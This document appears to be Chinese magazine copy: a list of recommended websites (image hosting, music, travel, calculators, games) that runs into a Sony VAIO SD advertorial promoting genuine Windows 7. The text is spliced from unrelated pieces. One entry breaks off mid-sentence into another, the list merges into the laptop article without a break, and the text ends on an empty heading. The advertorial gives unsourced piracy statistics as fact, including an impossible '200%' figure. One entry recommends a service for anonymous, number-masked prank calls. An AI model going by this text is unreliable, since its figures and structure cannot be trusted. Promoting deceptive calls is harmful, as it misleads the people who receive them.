一张恰当的图片有时的确能够替代一大段文字。由此可知，绝大多数朋友都喜欢存有含义的图片。而本网站就是一个专门借图片说事的平台，全是网友通过手机随机抓拍的一些有意思的场面、风景、搞笑瞬间、哲理瞬间，看图片比看文字舒服多了。此外，此网站还提供了手机客户端的下载，之后也可以将自己拍摄的图片上传与网友分享，更可以在手机中欣赏网友拍摄的图片，闲来无事时去看看吧。

http://www.mytubo.net/

**让你过把鼓手的瘾**

每次看音乐会，最吸引眼球的不是手握麦克风的歌手，而是忘情演奏的鼓手，那种忘情劲完全可以让自己倾倒。如果你也想试一把当鼓手的感觉，先到这个网站试一下在线架子鼓，场面绝对豪华。不过，你可别只会用鼠标去演奏，其实都有相应的快捷键，只要点击右下角的“Show Key Hints”链接，稍后就可以看到每个鼓对应的快捷键，这样就可以通过键盘来敲出自己的音乐节奏了。

http://www.kenbrashear.com/

**赤手空拳制作创意图片**

将老扑克牌上的“Q”或是“J”中的人物换成身边好友的头像，将美元中的人物换成自己的照片……这些其实无须你掌握图片处理软件，只需要你知道这个在线制作的网站地址即可。先选择一个制作模板，再上传自己的图片，设置好角度和大小，放到模板中即可大功告成。

http://www.festisite.com/cardgame/#0,0

**轻松做首藏头诗**

表达心意还要到网上搜索词句吗？毕竟用的人太多，显示不出诚意,自己创作又苦于没有文采。那就做首藏头诗吧，进入藏头诗软件在线版http://ct.kdd.cc/，把准备表达的心意编辑成十二个以内的汉字，输入到文本框内，选择生成诗词每行的字数“五言”或“七言”。“诗词形式”可以“藏头、藏尾、藏中、递进、递退”。“押韵方式”可以“两句一押、双句押韵、一三四押”。最后点击“开始做诗”即可。

http://ct.kdd.cc/

**Ting！为正版音乐而生**

Ting是百度官方推出的正版音乐平台，给我们一种全新的音乐体验，全新的社交音乐媒体。这里有正版的高品质音乐，有蕴藏真挚、强烈情感的音乐；有专业水准、精心制作的音乐；有能反映时代精神、彰显价值的音乐，以及所有你喜欢的音乐。你可以漫无目的地聆听最新、最热、最经典的歌曲；也可以找到志同道合的朋友，分享彼此对音乐的感悟；更可以直抒胸臆，传递自己的音乐态度。

http://ting.baidu.com

**缔造大自然的歌声**

奔波于都市中，每天听到的大多数是车辆声和近乎嚎叫的各种歌曲，真的很想安静片刻，听听大自然的歌声，鸟语虫鸣，微微风声……那才是一种享受。如果你也有这种需要，那就来Nature sound for me吧！进入该网站，有四个音柱供选择，在这里可以选择各种动物、环境的声音，并且可以调节音量，最终融合成一曲大自然之歌。单击Export to file可以保存声音文件（wav格式）到本机，非常实用。

http://naturesoundsfor.me

**3D购物，用鼠标“逛街”**

如今网上淘宝，购物已经非常稀松平常了。不过这些网站购物都非常一般，就是在网页中穿梭，根本就没有逛街购物的感觉。“3D购物商城”是一款购物网站，不过它绝对可以给你真实的购物感受。网站采用3D模式，我们可以通过鼠标在各个店面中穿梭，挑选自己的商品，跟在实体店面中购物非常相似。

http://www.kxtkx.com

**网上游览全球知名博物馆**

博物馆是了解某个地方的最好途径，可惜的是一般人难以逛遍世界各地的博物馆。Google也已考虑到这点，推出了Art Project，我们可以跟随Google免费进入全球知名博物馆，观看馆藏作品，作品以3D方式呈现。进入某个博物馆后，就如同置身于真实的博物馆，体验非常棒。

http://www.googleartproject.com

**两个网站同时浏览**

有时我们需要打开2个网站，进行对比或展示，此时一般要来回切换，非常不便，因此现在不少浏览器带有分屏功能，可以同时打开2个网站。其实除了使用分屏浏览器，还可以借助NiceSharing这个网站，它可以输入两个网址，单击Create Link按钮即可开启2个网站。

http://www.nicesharing.com

**免费听相声评书**

老爸喜欢听相声和评书，因此剑锋特地为他找了一款网站——评书吧，里面包含了大量地评书和相声，郭德纲、单田芳等都在其中。另外像一些武侠名著都可以收听，网站上的相声评书可以下载到电脑，有此爱好者，闲暇之余躺在藤椅上，泡上一杯龙井，惬意地享受吧。

http://www.pingshu8.com

**自制LOMO相片**

LOMO风格的图片，很多人都喜欢，类似的制作工具也蛮多，Rollip网站则可以在线制作LOMO风格的图片。进入网站后，单击Click here to start，选择Lomo风格模板，然后单击Click here to upload photo，上传自己的照片，稍后即可将照片转换成所选LOMO风格。

http://www.rollip.com

**图片显示速度快——六间房快捷贴图**

使用起来很简单，注册并登录后，只要点击“点击上传图片”即可在这个方格内将被系统支持的图片上传到服务器中。支持的图片格式有：JPG、PNG、GIF，图片大小限制在3MB以内。待上传的图片审核通过后，就可以直接在论坛、博客、普通网站中引用了。引用方法也非常简单，直接单击图片，在下面就能得到相应的链接代码，通过“复制”按钮将其复制到页面源文件中即可引用了。缺点是网站的所有图片都需要审核，由于是人工审核，图片上传后可引用时间间隔相对较长。同时，上传的图片上都印有LOGO水印，GIF格式的图片显示不太顺畅。

http://tu.6.cn/

**可去水印的外链相册——Poco**

可以使用新浪微博账号或者QQ号直接登录。成功登录后可以上传5MB以内，包括JPG、GIF、PNG在内的图片文件。水印可以选择是否添加（默认是添加的）。图片上传时可以选择批量上传方式（需要安装客户端插件），图片上传后可以使用不同的相册来进行管理。图片上传时无须审核，故而引用时无须等待。在引用时，只要打开图片，直接可以复制论坛、原始图片的引用代码。

http://www.poco.cn/

**支持游客上传图片的国外相册——Minus**

这是一个国外图片相册网站，支持游客直接上传图片并进行分享。图片支持方面：单张7MB以内，支持GIF、JPEG、PNG、APNG、BMP格式。可以直接将图片拖拽到Minus网页中完成上传，一次可以拖拽50张图片，永久保存，相册容量无限制，图片外链时可以直接从图片下面复制相应的外链代码。当然，注册后使用更方便，例如方便图片的日后管理、分享等。

http://min.us

**无限容量的国外相册——Imgur**

这也是一个国外免费支持外链的相册，使用Imgur相册时，不需要注册，不限制图片上传空间。支持的图片格式有JPEG、GIF、PNG、TIFF、BMP、PDF、XFC（GIMP）。但TIFF、BMP、PDF、XFC格式的图片上传后会转换成PNG格式。非动画图片允许上传的最大为10MB，但超过1MB的图片都会被压缩成1MB。允许上传的动画图片最大为2MB，只要图片每3个月有一个浏览量，图片会被永久保存。可上传本地图片或通过图片URL地址上传。

http://imgur.com/

**偏重于分享的国外相册——Thumbsnap**

这也是一个国外免费的支持外链的相册，但它更专注于图片的分享服务。ThumbSnap支持JPG、GIF、PNG三种格式的图片，数量没有限制，图片文件大小必须在2MB以下。如果之前你拥有Twitter账号，可以## 非常适用于临时存储图片的相册——Myggdot
可以匿名上传图片，速度非常快。支持png、jpg、jpeg、gif、bmp，单张图片不能超过1MB，每张图片每月的流量为1GB，每次可以上传5张图片，无须注册，非常适合于临时存储图片并在其他网络位置的引用。http://www.myggdot.tk

## 人未行，地先定
出游前首要确定好目的地，选择适合自助游的景点非常重要。驴行网、足迹网、Yododo、搜狐旅游都是自助游的好帮手，提供了各种知名景点的介绍，自助游路线，自助游的设备，注意事项，以及驴友们的游记图片等，相当全面。

- 驴行网：www.jiaotone.com
- 足迹网：www.zuji100.com
- Yododo: www.yododo.com
- 搜狐旅游：http://travel.sohu.com

## 学摄影，拍好照
游玩时看到怡人的美景，第一反应就是拍照，不过拍照片和拍好照片还是有差距的，因此出行前最好恶补一下摄影知识，这样拍出的照片才够味。色影无忌、新摄影都是不错的摄影教学网站，内含摄影器材、摄影教程、摄影作品等等，有志于提高摄影水平的朋友，常来这里一定会有所收获的。

- 色影无忌：www.xitek.com
- 新摄影：www.nphoto.net

## 懂礼仪，游四方
自助游一般不带导游，因此到了一个陌生地方，除了注意安全外，还必须懂得当地的风土人情，避免触犯当地人的忌讳，特别是去少数民族地区，更要注意各种礼仪。其实即使不出游，平时多学些礼仪知识，对人际交往也很有帮助，扩充自己的人脉，也就是在增加财脉。中国礼仪网、交际礼仪网就是学习礼仪的好去处。

- 中国礼仪网：www.welcome.org.cn
- 交际礼仪：www.aijiaoji.com

## 选路线，择宾馆
准备工作做好后，我们自然是去目的地了。现在就是要搞清怎么走了，花最少的钱到达目的地无疑是最好的。我们可以借助网络，确定一条完美的行程路线，以及获知行程中打折的酒店宾馆。花最少的钱，走最远的路，“酷讯旅游”就能实现我们的愿望，打折的机票车票、酒店宾馆一应俱全，绝对可以让自助游更超值，性价比更高。酷讯旅游：www.kuxun.cn

## 在线房贷计算器
贷款买房是很多人的选择，可如何计算还款方面的数据，这就需要专业点的工具喽。这里给大家推荐一款在线贷款计算器，可以根据贷款类别、按揭年数、利率等计算贷款总额、还款总额、支付利息款等数据。新浪乐居•房贷计算器：http://bj.house.sina.com.cn/bxjsq

## 在线计算个人所得税
最近个人所得税进行了调整，对于工薪族来说，个人所得税的计算方法是什么？税后工资是如何计算的？年终奖如何缴税……类似的问题，都不太了解。“9米计算器”则可以帮我们这些工薪族计算个税，并且在网站上还有全面的个税知识，可以解答我们的一切疑问。9米计算器：http://9mi.me

## 网盘下载，也能享受“离线”服务
领教过迅雷的离线下载功能的朋友都知道，离线下载可以避开自己的网络速度慢的状况，特别是下载一些国外网站文件时，可以大幅改观下载效率。而这个Fetch.io网站则提供类似于迅雷离线下载功能的服务，让你可以直接以“离线”的方式从这些知名国外网盘下载需要的文件（支持的网盘：rapidshare、megaupload、mediafire、fileserve、wupload、filesonic、easy-share、megashare、snetload.in），离线下载的速度非常快，下载速率甚至能达到几十MB每秒，免费在线存储空间为2GB，等“下载”完毕（支持同时粘贴多个下载链接进行批量“下载”），你只要统一从Fetch.io网站中的个人文件夹再将它们下载到本地硬盘即可。http://fetch.io/fetch/

## 在线版团队协作式任务管理
时间管理一直深受电脑一族青睐，合理地分配时间或是对某个任务进行跟踪，往往可以大大地提高效率。而这个网站是在传统的时间管理的基础上演化而来，不仅可以进行任务跟踪，更重要的是它还提供了协作功能，例如一个团队需要合作完成某项工作，那么，借助这样的平台对多人协同处理的事情进行任务跟踪，提供集体的效率。不过，这个平台需要高版本的IE（IE8以上）或是Firefox, Opera, Chrome等浏览器的新版本的支持。https://taskant.com

## 这回说的是装饰，不是装修
之前我们介绍过在线自己设计装修方案的在线应用，而这回我们推荐的是一个在线教你玩装饰的网站。内行的都知道轻装修，重装饰，可见装饰的重要性。但是，并不是所有的人都学过艺术专业，并不是所有的人都能装饰出漂亮的房间来。这个网站就以样板间的方式向你展示了装饰的小诀窍，同时，你也可以翻翻这些样板间，欣赏装饰的魅力和美丽。http://www.loumou.com

## 以书会友，借友识书
阅读丰富人生，好书需要分享，如果自己看到一本好书，总想将其分享给别人，当自己想找一本书而焦头烂额时，又希望朋友能够给自己一些线索。这个名为“书朋”的网站就是一个不错的以书会友、借友识书的好平台。书友朋友们来到这既可以使用搜索引擎快速地找到并下载自己喜欢的书，也可以通过书榜了解最新最热门的书，还可以利用标签云关注感兴趣的书榜，随时分享书友们推荐的书籍，当然，遇到一本好书，也可以通过微博、人人网等方式分享给其他朋友。在论坛中还可以以书会友，结识更多喜欢读书的朋友。http://www.shupeng.com/

## 电影不用下载即可观看
以前，我们想看某一部电影，如果没有直接提供在线播放的资源，那只能将它们下载到本地硬盘，然后再观看。而这个叫“微网盘”的网站很新潮，你可以通过它将电影、音乐、图片下载到服务器（这个过程无须本机参与），完毕后无须再下载至本地硬盘，直接在“微网盘”中即可在线欣赏。这样不仅节省了时间，还能节约电费呢，再也不用通宵达旦地进行挂机下载电影了吧。http://yydisk.com/index.html

## 免费图标资源任你选
一个漂亮的图标可以让我们的头像或是网站LOGO变得更吸引人。但是，自己设计一个图标很是费劲，而这个网站中就免费为你提供了大量的图标资源，拿来即可使用。有社会媒体图标、节日图标、各式各样的质感图标，相中某个图标后可以直接将其下载到本地硬盘来使用。http://artdesigner.lv/

## HTML编辑，在线也可以实现
喜欢做网页的朋友肯定需要经常编辑HTML代码，有的直接使用专用的编辑工具（例如DreamWeaver），但若当前电脑中没有安装这类工具，就费劲了。而若将这个在线HTML编辑器收藏起来，以后可就方便了。不仅可以直接在线编辑HTML代码，甚至还非常方便在线预览测试，满意后再直接粘贴到网页源代码中。http://qip.li/create

## 定制个性化礼品
逢年过节，送礼总是不可避免，可现在店面中的都是一个样，难讨女士开心。“卡当网”可以用自己的照片、姓名，定制各种个性化的精美礼品，包含：时尚饰品、卡通花束、个性服装等。卡当网：http://www.kadang.com

## 在线制作精彩视频相册
普通的网页相册已经不能够吸引别人的眼球，如果能生成声情并茂的网络相册，那无疑可以让自己秀一把。56网的动感相册功能就能实现我们的愿望，它可以批量添加图片，提供多种照片切换方式，精美的照片边框，并且能够添加背景音乐，最终制作出精美的视频相册。http://photo.56.com/mv/make

## 网名变头像
好多人喜欢给自己取个有吸引力或有意义的网名，有没有想过自己的网名是啥样呢？今天推荐的这个网站，可以将网名转换成像素脸谱头像，非常搞笑。剑锋特地试了一下，输入网名后，单击into a face按钮，头像就出来了，自我感觉俺的脸谱还是蛮酷的。http://turnyournameintoaface.com

## 匿名电话免费打
闲暇之余，想恶搞一下，给哥们来个匿名电话，娱乐他一把。Evaphone就能拨打匿名电话，而且是免费的。进入该网站后，首先选择拨打对象所在的国家，如：选择“中国”，则电话号码前会自动加拨86。笔者特地拨打了自己的手机，发现显示的号码来自俄罗斯，用来恶搞还是蛮有效的。http://www.evaphone.com/locale/cn

## 在家就读世界名校
历史证明，知识分享是世界进步最好的利器。目前全球多个名牌大学联合参与了一项开放课程项目计划，向全球所有人免费提供公开课视频，让任何人都能轻易接触到世界顶级的知识和教育，旨在开创一个有利于人类的全球知识网络。网易视频的“公开课”和搜狐视频的“教育”频道，包含了大量来自哈佛、牛津、耶鲁大学等世界级名校的公开课课程，内容涵盖人文、社会、艺术、金融等领域，而且很多课程都包含中英文同步字幕，我们在学习知识的同时，还能同步提高英语水平。爱好学习的童鞋们，千万不要错过。网易视频•公开课：http://v.163.com/open 搜狐视频•教育：http://tv.sohu.com/open

## 3D电影知多少
3D电影一直是很多影迷的最爱，那种震撼的效果的确非同凡响，可3D电影是如何制作的？看3D电影需要辅助工具吗？3D电影在哪里可以下载？下面的3个网站，可以解答有关3D电影的一切疑问。

- 3D中国：http://www.china3-d.com
- 爱上3D网：http://www.233d.com
- 立体中国：http://www.cniti.com

## 遇到特殊要求，给图片减肥不费劲
在很多场合，我们提供的原始图片可能因为体积问题而不能上传，例如淘宝网中发布的宝贝、论坛中试图使用的头像等。

这时，如果电脑中没有安装图片处理类工具，借助本站的图片瘦身功能就能即刻解决难题。只要将JPEG格式的图片上传到服务器，网站会自动帮助你压缩处理，最后只要将处理后的图片下载到本地硬盘中即可。此外，你甚至还可以直接将相册（例如Picasa）中的图片批量压缩处理。

http://www.jpegmini.com/main/home

## 最方便的手机游戏
在手机上玩游戏也是一大乐趣。不过，你必须玩之前将游戏安装到手机中才行。而这个名为“手机最游戏”的网站提供了在线游戏，只要你用手机打开这个游戏站，选择游戏入口就可以玩游戏了，无须安装软件，非常方便。

http://youxi.cn/

## 将“虚拟”进行到底
网络带给我们很多虚拟而又实用的东西，例如聊天、游戏、购物等。而这个“虚拟城市社区”则将虚拟进行得更彻底。在这个虚拟城市里你可以漫步街头，与人交谈，逛逛街边的小店，看看街上又发生了什么新鲜事，也可以找个公寓住下来，打理自己的家，去邻居家里串串门。可以直接使用豆瓣网的账号登录，不过，正常使用需要IE8/9、Firefox最新版、Chrome、Safari浏览器的支持。

http://alphatown.com/

## 找小游戏，一找一个准
不少朋友喜欢玩小游戏，但找小游戏却是个体力活，也是个技术活。有的朋友费很长时间也找不到一个好玩的小游戏，而有的朋友则很快就能找到目标小游戏。其实，只要你知道这个小游戏专用搜索引擎，找小游戏也会变得简单起来，想找哪个就找哪个，效率非常高。找到后直接通过提供的链接就可以打开游戏页面了。

http://www.iplaycc.com/

## 新浪微博中看养眼美女
也许你还在与其他微博主那样辛勤地当码字员、转播员……其实，微博中有很多应用，善于发现这些应用往往可以让你有意外惊喜。例如，微博中也可以有很多养眼美女哦。其实，这是新浪微博的新版块——微女郎！里面全是养眼美女，喜欢美女的男士们，事不宜迟，赶快打开这个特殊的微博吧。

http://vgirl.weibo.com/

## 自助建站，其实菜鸟也行
搭建一个自己的网站，很多菜鸟总是有一种遥不可及的感觉。其实，借助Tap.cn这个网站就能非常轻松地搭建自己的网站了。在这里你无需任何代码基础即可建立个人网站，搬开那些ASP、PHP、HTML、CSS等代码，只要稍加修改就能拥有一个属于自己的个人网站了，即使是菜鸟也能轻松做到。

http://www.tap.cn/

## 文件共享也云一把
本地局域网中进行文件共享，直接设置共享，对方就可以通过局域网找到这个文件了。而若彼此相隔几千里，之间只有因特网，如何快速共享文件呢？搬开一切软件、插件，只要在浏览器中打开这个云共享网站——很短网，因特网也可以像局域网那样方便地互相共享文件，而且它采用P2P技术，不仅可以多个同时拷贝共享文件，而且参与的人数越多，拷贝速度越快。

注意：这个网站基于Flash技术，需要安装最新版Flash Player插件，并且在运行时授权插件使用网络带宽，否则会出现无法点击共享按钮或是下载按钮的情况。

http://henduan.com/cs

## 做个草根时尚达人 so easy !
想要成为草根里的时尚达人，最快、最准确地找到时尚潮品自然是首当其冲。知名时尚购物搜索网站——翻东西（www.fandongxi.com）提供了各种创意功能，登录翻东西输入商品货号、名称、品牌、类型进行搜索，就可以立刻找到最新的打折资讯、促销信息。目前翻东西包含凡客、淘宝商城、M18麦网、走秀网、卓越网、银泰网等众多电子购物网站的最新增及时尚资讯及商品价格。

当然，除了迅速搜索到时尚单品外，如何搭配也是一门学问。翻东西上聚集了众多时尚达人，他们几乎每天都在翻东西网址站里分享自己的穿衣、搭配、shopping等经验，不仅美女如云，帅哥也是每天都来报道。如果你认为自己是时尚达人或者想要成为一名时尚达人，来到翻东西一定会让你满载而归。

http://www.fandongxi.com

## 经典阅读新干线
这年头，能用心读书的人很少了，读名著、读经典的人更少，很多人看书，大多数为了应付考试或其它。“经典阅读新干线”提供了大量的网页小说，包含：名人、名著、人文、科普等几十种类型的图书，进入网站后，单击相应的链接即可阅读书目。我们也可以用手机打开网站，随时随地阅读经典。

http://www.eywedu.org

## 在线玩多米诺骨牌
多米诺骨牌是个非常有趣的游戏，能发掘玩家的想象力，可拥有多米诺骨牌的人却很少。DRAWMINOS网站提供了在线多米诺骨牌，这里有排列好的多米诺骨牌供试玩，单击FAVOURITES按钮可以选择游戏，单击CREATE按钮可以创建个性化的多米诺骨牌游戏，单击SAVE可以保存游戏，并且生成一个网址，将这个网址发送给好友，他们就能玩您自制的多米诺骨牌游戏。

www.drawminos.com

## 在线制作甜蜜视频
自从与MM相识之后，拍摄了很多和MM一起的温馨影像，最近MM让我把这些做成影楼效果的电影，对我这等菜鸟，这种要求还是有些难度的。不过还好YouVivid帮了我的忙，登录网站后，可以在线制作影像，网站以婚礼视频为主，提供了大量的模板，让我们可以轻松炮制出甜蜜的爱情记忆。

http://cn.youvivid.com/index.asp

## 带视频的在线词典
现在提供在线词典翻译的站点不少，虽然大都有语音朗读的功能，但由于缺少面对面的视频指导，很多朋友会觉得使用起来不太给力。其实可以使用必应的词典网页，在影片跟读的过程中学习英文。首先进入必应的词典网页，搜索相应的英文词汇，这里的例句，除了提供音量图标之外，我们还会同时看到一个视频图标，单击该图标，会出现影片形式的跟读界面，类似于卡拉OK演唱歌曲的形式，当视频播放进度进入相应的句子时，会响起标准的英文发音，这样更便于用户学习正确的发音。这里还提供暂停、停止、全屏等功能按钮，虽然控制按钮少了一些，但对于英语学习来说，显然是足够使用了。

http://dict.bing.com.cn

## 智能识别字体
不知道大家有没有遇到过这样的情况，在网上看见一张好看的照片，里面还配有精彩的文字介绍，觉得照片上的字体很好看，想拿来自己用，但是又不知道这个字体的名称，从而无从下手。现在对于这样的情况我们有办法了，使用WhatTheFont，可上传文字图片，即可找出图片上的字体型号。

http://new.myfonts.com/WhatTheFont

## 数码时代的选机利器
在我们的生活、学习、工作过程中，已经无法离开一些必要的数码设备了，像手机、数码相机、摄像机、笔记本等。但是如何快速选择一款符合自己要求的产品呢？如何才能在多款相似产品中找到最佳的那款呢？“优择网”就是一个非常体贴的小工具，用它可以快速而方便地找到自己想要的数码宝贝，并且可以通过其介绍来全方位地了解目标，进而给自己提供购买的参考。

http://youze.cc

## 安卓手机必备搜索利器
现在使用安卓手机的朋友越来越多，而选择安卓手机的目的就是该系统支持安装各种软件，但是找这些软件是件颇费精力的事情。而这个“我要搜APP”的搜索工具就可以帮助你快速搜索到自己想要的安卓小工具，找到想要的安卓小程序后，可以直接点击打开下载页面，它是安卓手机用户不可或缺的利器。

http://51souapp.com/

## 分享婚纱照也是件有意义的事
爱情战场连抗8年，终于喜结连理，无疑是人生一件大快事。好事与朋友分享自然不在话下，那就把最美的结婚照亮给大家看吧。这个“新娘秀”网站就是一个不错的平台，你可以将自己的结婚照秀出来与网友分享，而闲来无事，对别人分享的婚纱照评头论足一番，也是个乐趣。

http://www.xnshow.com/

## 想有号召力，那你就做发起人吧
在现实生活中，我们有时候可能会倡议旁边的一些朋友做一些事情，例如组织一次团购、一次献爱心捐助、一次网购血拼……现在，在因特网中也可以通过这个“发起人”网站去倡议，自己做发起人，组织大家为了一个目的，朝着一个方向努力，最终实现所有人的愿望。

http://www.fagiren.com/

## 找个助手帮助自己快速背诵
过目不忘是一种传说，现实中，只有记性弱弱之分，记忆力强的人在记忆一些信息时速度快，而记忆力差的人则像只笨鸟，要想先飞，背后你得花很多精力去努力。不过，这个名为“易呗”的网站可以助你一臂之力，它会将你要记忆的信息（包括诗词、英语、人物、电脑网络、百科等多个领域的相关内容）细分成一条一条，以助快速记忆，这种化整为零式记忆方法比较奏效。

http://www.yibei.com/

## 鼠标简单几步画个小人能跳舞
假如你对那些千篇一律的电脑游戏早就生厌，也许这个只需动动鼠标就可以画个小人，而且还能跳舞的网站你会喜欢。在浏览器中打开这个网站，然后按住鼠标左键的同时在绘制区域拖动鼠标就可以画个小人（当然你也可以画只小狗、小猫……），绘制完毕后点击“DONE”按钮后就可以看到这个小人还会动。更有意思的是，从你画完这个小人后，它还会有自己的思维，引导你再去为他画其他道具，譬如画了个小人后，他会自动走到一个带锁的盒子面前，这时他会让你再为他画把钥匙……一个需要用户参与绘制道具的游戏，比较有意思。

http://www.drawastickman.com/index.htm

## 快速变身时尚达人
如今很多人对时尚不敏感，有时花了很多时间购买的衣帽服饰却并不适合自己，那么怎样才能选购一些适合自己的时尚服饰呢？“我爱搜罗网”里面包含了大量个性的小店，并且按照类别进行分类，让我们可以在最短的时间内找到适合自己的服饰，让你摇身成为时尚潮人。

http://www.52souluo.com# SONY VAIO SD的7大秘技

从2004年的S系列，2006年的SZ系列，2008年的SR系列，到2010年的S1系列，过去的每一款SONY VAIO笔记本都凭借与众不同的创新设计成为了当时的经典产品。那么这次SONY最新推出的VAIO SD系列又会给我们带来什么样的新体验呢？

## 1. 一体式的铝合金面板

既然是商务笔记本，带出去公干，面子问题很重要。它的设计要干练，否则影响你在别人面前的形象；它还不能太重，否则背着它出门就会成为一个负担。在这个方面，SONY VAIO SD系列做得很到位，它把原来在高端机型上才能看到的设计和材质拿了过来。这里面，最让人印象深刻的就是它的一体式铝合金面板。

这虽然看起来只是表面功夫，但是它带来的好处有很多：首先一体成型的设计制造难度大，没有好的制造工艺是加工不出来的，而工艺的提升带来的是精致的细节和更紧凑的结构，让它不会像一些低端本子那样稍一使劲就吱吱乱响。其次，除了铝合金材质触感更好之外，键盘四周凹陷的设计，也是一种人体工程学的体现，让你敲打键盘的时候手腕更舒服。

## 2. 少于20秒的启动时间

职场如战场，反应迅速很重要，要是开个电脑都得等上个两分钟，那就实在太不像话了。SONY VAIO SD笔记本预装了最新的正版Windows 7家庭普通版操作系统，无论启动还是运行程序，都是快捷流畅。现在的程序是越做越大，操作系统也不例外，但是由于Windows 7在核心代码上做了优化，改变了驱动程序的加载方式，启动时只加载必要的设备，并且在减少了启动时所需的CPU和内存资源的情况下允许多款驱动同时加载，因此它的启动速度和Vista相比减少了20%以上，即便和比它身材苗条许多的XP相比也毫不落后。

SONY VAIO SD使用的最新BIOS技术让启动BIOS阶段的时间整整缩短了一半，如果你选装了SSD硬盘，那么最快的BIOS配上最快的系统，将让SONY VAIO SD笔记本的开机时间只有区区不到20秒。如果你也想享受这样的启动速度，切记千万要用正版Windows 7，因为盗版Windows 7很多都被修改过系统文件和植入木马，不该加载的东西太多，会让你的电脑慢如牛车。

## 3. USB 3.0

MS/SD读卡器，VGA接口，USB 2.0接口，HDMI接口，USB 3.0接口，在SONY VAIO SD笔记本丰富扩展接口中，USB 3.0只是其中的一个，但是也从一个侧面反映出SONY VAIO SD系列笔记本作为中端商务级笔记本面面俱到、大小通吃的气势。对于追求影音娱乐的用户来说，HDMI和USB 3.0简直就像是左膀右臂，缺一不可。高清电影不连接到大屏幕上看简直就是暴殄天物；而动辄几十GB的高清文件要是没有一个高速接口，那拷贝一次花的时间简直让人失去耐心。

SONY VAIO SD预装了正版Windows 7家庭普通版系统，可谓好马配好鞍，让你用不着安装任何驱动就可以支持USB 3.0设备，享受比USB 2.0快10倍的传输速度，使高清文件的拷贝不再成为瓶颈。凭借Windows 7强大的硬件兼容性和Windows 7自带的影音软件，SONY VAIO SD可以轻易地变成你的娱乐助手和数码设备中继站。请注意，只有Windows 7 SP1才原生支持USB 3.0，而由于盗版Windows 7无法正常升级为SP1，所以使用盗版用户就只能用USB 3.0的接口而忍受USB 2.0的速度了。



## 4. 四重防护

移动办公，信息安全非常重要。一来笔记本放在背包里难免磕磕碰碰，如果笔记本不结实那可不妙；二来越好的笔记本越不防盗，一旦丢了隐私和机密外泄可让人抓狂；最后，满是后门木马动不动就死给你看的系统也让人无法接受。

SONY VAIO SD预装了正版Windows 7家庭普通版系统，配合精良的硬件设计，从外到内，从硬到软地设计了坚不可摧的四重防护，让你信息安全无忧。

第一重：从侧面看，你会发现SONY VAIO SD的轮廓是一个完整的六边形，这样的设计不仅仅是为了好看，更是为了笔记本的坚固，偶有磕碰也不会轻易损坏内部的结构。

第二重：正版Windows 7自带的Windows Defender防火墙和正版用户可以免费使用的Microsoft Security Essentials杀毒软件让你的电脑免受病毒和黑客的骚扰。

第三重：正版Windows 7自带的系统还原功能，能够随时将系统还原到健康的状态；文件备份功能可以自动为你备份重要文件，以免误删文件造成无可挽回的损失。

第四重：即便系统已经无法启动，SONY的VAIO Care也能为你将存在硬盘上的数据备份到外接存储设备上，保证你电脑里重要数据的绝对安全。

## 5. 英特尔酷睿 i5 处理器

SONY VAIO SD定位于中端主流商务机，处理器也相应地配上了与它定位相符的英特尔酷睿i5处理器。本来集成的Intel HD Graphics 3000基本上已经能够胜任日常办公和影音娱乐的需求，但是为了让用户能够玩上更高端的主流PC游戏，SONY还为VAIO SD装上了ATI HD6000独立显卡，这让SONY VAIO SD的Windows体验指数提高到了5.3分，和主流的台式机相比不相上下。

英特尔酷睿i5处理器配合正版Windows 7对Office办公软件的完美支持，SONY VAIO SD不但能够满足商务用户日常的办公需求，甚至连重一点的图形处理工作也能胜任。同时，ATI HD6000独立显卡在支持DirectX 11的正版Windows 7的配合下如虎添翼，横扫几乎所有主流3D游戏，堪称工作娱乐两不误。

## 6. 6小时续航时间

续航时间是所有笔记本电脑都无法回避的重要参数。由于装备了一块4400毫安的锂离子聚合物电池，SONY VAIO SD笔记本在这个项目上拿到了续航6小时的优异成绩，这么长的续航时间足够让你在从哈尔滨飞到三亚的飞机上连续不断地使用它。别忘了，开启正版Windows 7电源管理中的“节能模式”，也能为你多争取一些使用时间啊。

对于电池，SONY VAIO SD的智能充电系统也值得一提，它可以在1.5小时内充满80%的电量，足够使用4.8小时。也就是说，差不多充电20分钟就可以获得1小时的使用时间，外出开会时这功能非常有用。当然，要获得6小时的超长续航，还是得老老实实充满3个小时的电。

## 7. 正版 Windows 7

好马配好鞍，好的硬件当然需要好的操作系统配合。SONY VAIO SD预装64位正版Windows 7家庭普通版系统，64位操作系统运行效率更高，也就是说运行速度更快，最重要的是它能支持4GB以上的内存，可以让你为SONY VAIO SD升级更高的内存，以获得更好的性能。另外，就像前文提到过的，Windows 7对Office办公软件的完美支持，对USB 3.0和DirectX 11的完美支持都是其他操作系统无法比拟的，而这些特点都是你获得完美使用体验不可或缺的。

SONY VAIO SD预装的是Windows 7家庭普通版，已经足够满足你日常应用的需要。不过，如果你想获得更好的办公体验，那么建议你升级到Windows 7专业版。和家庭普通版相比，Windows 7专业版不但拥有漂亮的Aero界面，更重要的是它可以适应公司内更复杂的网络环境，例如，能够让你将重要文件备份到网络内的存储设备上。另外，Windows 7专业版还支持加密文件系统，进一步保护信息安全。

提醒你，千万不要图便宜自行换装盗版系统，一来，SONY产品的驱动和随机自带的应用软件都为Windows 7做过优化，并且会持续不断地更新新版本，盗版用户就无法享受索尼和微软的这些更新服务。另外，也是最重要的，盗版Windows 7的系统文件都被修改过，这样一来系统的稳定性就无法保证了，更可怕的是，很多盗版Windows 7中都被植入了木马和后门，频繁死机还是小事，自己的个人信息和重要文件被黑客盗走才是大麻烦。毕竟，再好的电脑只是工具，是信息的载体，存在这台电脑里的信息才是最宝贵的东西。



## 关于盗版的数字

- 1. 45.9%的盗版Windows系统中含有大量的木马病毒和恶意流氓软件，严重危害个人电脑的系统安全。
- 2. 78%的盗版Windows系统开机项被修改，使得电脑开机后的第一件事就是放行流氓软件和病毒。
- 3. 84.3%的盗版Windows系统自己打开远程桌面连接，可被黑客进行远程非法操作。
- 4. 89.9%的盗版Windows系统的防火墙设置被更改，使防火墙形同虚设。
- 5. 95.6%的盗版Windows系统的IE和收藏夹被修改，并植入大量垃圾信息。
- 6. 100%的盗版Windows系统的文件系统被修改，严重影响用户体验和个人信息安全。
- 7. 200%的盗版Windows系统会影响使用者的心情。

## 锂离子聚合物电池

